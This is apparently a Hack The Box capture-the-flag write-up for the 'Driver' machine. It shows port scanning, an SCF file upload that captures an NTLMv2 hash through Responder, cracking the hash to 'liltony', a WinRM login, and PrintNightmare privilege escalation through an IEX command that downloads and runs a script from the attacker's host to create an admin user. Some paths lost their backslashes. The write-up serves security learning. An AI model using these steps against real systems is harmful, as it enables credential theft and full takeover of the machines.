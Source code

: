 ```yaml
---
title: Hackthebox Driver Writeup
slug: hackthebox-driver-writeup
description: Hackthebox release new machine called driver, in this machine we have permission to upload Firmware Update and we abuse that permission with SMB Share SCF File Attacks and get the hash of tony user crack that hash and login with his account with help of evil-winrm and for privesc i use PrintNightmare LPE exploit for generate user as administrator and login with that user with help of evil-winrm.
date: 2021-10-04
image: hackthebox-driver-writeup.webp
---
```



## Nmap

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver]
└──╼ [★]$ nmap -sC -sV -oA nmap/result 10.10.11.106
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-03 00:11 CDT
Nmap scan report for 10.10.11.106
Host is up (0.086s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-auth:
| HTTP/1.1 401 Unauthorized
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-10-03T12:11:52
|_  start_date: 2021-10-03T11:42:52

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.64 seconds
```

There are three ports open `80:http,135:RPC,445:SMB`

Let's start with `RPC` enumeration.

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver]
└──╼ [★]$ rpcdump.py @10.10.11.106
Impacket v0.9.23.dev1+20210416.153120.efbe78bb - Copyright 2020 SecureAuth Corporation

[*] Retrieving endpoint list from 10.10.11.106
Protocol: [MS-RSP]: Remote Shutdown Protocol
Provider: wininit.exe
UUID    : D95AFE70-A6D5-4259-822E-2C84DA1DDB0D v1.0
Bindings:
          ncacn_ip_tcp:10.10.11.106[49408]
          ncalrpc:[WindowsShutdown]
          ncacn_np:\DRIVER[PIPEInitShutdown]
          ncalrpc:[WMsgKRpc07AFF0]

Protocol: N/A
Provider: winlogon.exe
UUID    : 76F226C3-EC14-4325-8A99-6A46348418AF v1.0
Bindings:
          ncalrpc:[WindowsShutdown]
          ncacn_np:\DRIVER[PIPEInitShutdown]
          ncalrpc:[WMsgKRpc07AFF0]
          ncalrpc:[WMsgKRpc07C601]

--------------snip-------------------

[*] Received 464 endpoints.
```

We use `PrintNightmare` exploit against `Print System Remote Protocol` but for that we need user `creads` so let's move further.

<FixTheImageURL src="cmd.png" slug="hackthebox-driver-writeup" />

Same with the `smb` we need creads for `listing` the shares.

## Port-80

When we go to the `ip` it's asking for `username` and `passsword`.

<FixTheImageURL src="web.png" slug="hackthebox-driver-writeup" />

I try `default` creads like `admin:admin` and it's `work`.

<FixTheImageURL src="web1.png" slug="hackthebox-driver-writeup" />

We are inside `home` page.

<FixTheImageURL src="web2.png" slug="hackthebox-driver-writeup" />

When i go inside `Firmware` Updates there is a option for `uploading` firmware and the name of the site is `MFP Firmware Update Center`.

We can search any `exploit` for that `related` name.

<FixTheImageURL src="web3.png" slug="hackthebox-driver-writeup" />

I can't find any `exploit` for that related name but we can `imagine` that when we `upload` the file the `server` saves the file inside `smb` share.

So rather `searching` for exploit we can try `SCF File Attacks`.

Link : https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

Create a file called `@exploit.scf` and change the `ip`.

## @exploit.scf

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver]
└──╼ [★]$ cat @exploit.scf
[Shell]
Command=2
IconFile=\10.10.14.116sharepentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

After that start the `responder` for capturing the `hashes`.

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver]
└──╼ [★]$ responder -wrf --lm -v -I tun0
```

Upload the `scf` file and click on `submit`.

<FixTheImageURL src="web4.png" slug="hackthebox-driver-writeup" />

Now check your `responder` we got the hash `captured`

<FixTheImageURL src="cmd1.png" slug="hackthebox-driver-writeup" />

```js
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER	ony
[SMB] NTLMv2 Hash     : tony::DRIVER:6f09da70e73b9237:674092FE6EC25CB23CBB01D554A9B854:0101000000000000DEB3B39E53B8D70144991278610991070000000002000400270027000000000000000000
```

Now let's crack the `hash` with `john`.

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver]
└──╼ [★]$ john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)
1g 0:00:00:00 DONE (2021-10-03 00:42) 10.00g/s 327680p/s 327680c/s 327680C/s softball27..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

Now we have the `passsword` let's use `evil-winrm` to login inside machine and get the `user.txt`.

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver]
└──╼ [★]$ evil-winrm -i 10.10.11.106 -u tony -p liltony

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:/Users/tony/Documents> type ../Desktop/user.txt
4936df48c2c5217ac7e9b78f5a70c45a
*Evil-WinRM* PS C:/Users/tony/Documents>
```

<FixTheImageURL src="cmd2.png" slug="hackthebox-driver-writeup" />

## Privilege escalation

Now we are inside the `machine` and we also have creads so let's use `PrintNightmare exploit` because we see in the `rpcdump` `Print System Remote Protocol` is enabled.

Link : https://github.com/calebstewart/CVE-2021-1675

Let's upload the `ps1` script with help of `evil-winrm`.

```js
*Evil-WinRM* PS C:/Users/tony/Desktop> upload /root/Desktop/HTB/Driver/CVE-2021-1675.ps1
Info: Uploading /root/Desktop/HTB/Driver/CVE-2021-1675.ps1 to C:/Users/tony/Desktop/CVE-2021-1675.ps1

Data: 238080 bytes of 238080 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:/Users/tony/Desktop>
```

But we can't `import` the script becuase `ExecutionPolicy` is `Restricted`.

```js
*Evil-WinRM* PS C:/Users/tony/Desktop> Import-Module .\cve-2021-1675.ps1
File C:/Users/tony/Desktop/cve-2021-1675.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module ./cve-2021-1675.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
*Evil-WinRM* PS C:/Users/tony/Desktop>
```

We can `conform` that with the help of `Get-ExecutionPolicy` command.

```js
*Evil-WinRM* PS C:\Users\tony\Desktop> Get-ExecutionPolicy
Restricted
*Evil-WinRM* PS C:\Users\tony\Desktop>
```

So we can `bypass` that with the help of `download` the file with help of `IEX` command.

The `advantage` of this command is it's `automatically` import the file after `download`.

Let's start the `python` server.

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver/www]
└──╼ [★]$ ls
CVE-2021-1675.ps1
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver/www]
└──╼ [★]$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now let's `download` the file with `IEX` command.

```js
*Evil-WinRM* PS C:Users	onyDesktop > IEX(New-Object Net.Webclient).downloadstring('http://10.10.14.116/CVE-2021-1675.ps1')
```

<FixTheImageURL src="cmd3.png" slug="hackthebox-driver-writeup" />

Now it's imported `automatically` let's create new user with `Invoke-Nightmare` command.

```js
*Evil-WinRM* PS C:Users	onyDesktop > Invoke-Nightmare -NewUser "dedsec" -NewPassword "dedsec@123"
```

now `connect` to the machine with new `username and passsword` and get `root.txt`.

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver/www]
└──╼ [★]$ evil-winrm -i 10.10.11.106 -u dedsec -p dedsec@123
```

<FixTheImageURL src="cmd4.png" slug="hackthebox-driver-writeup" />
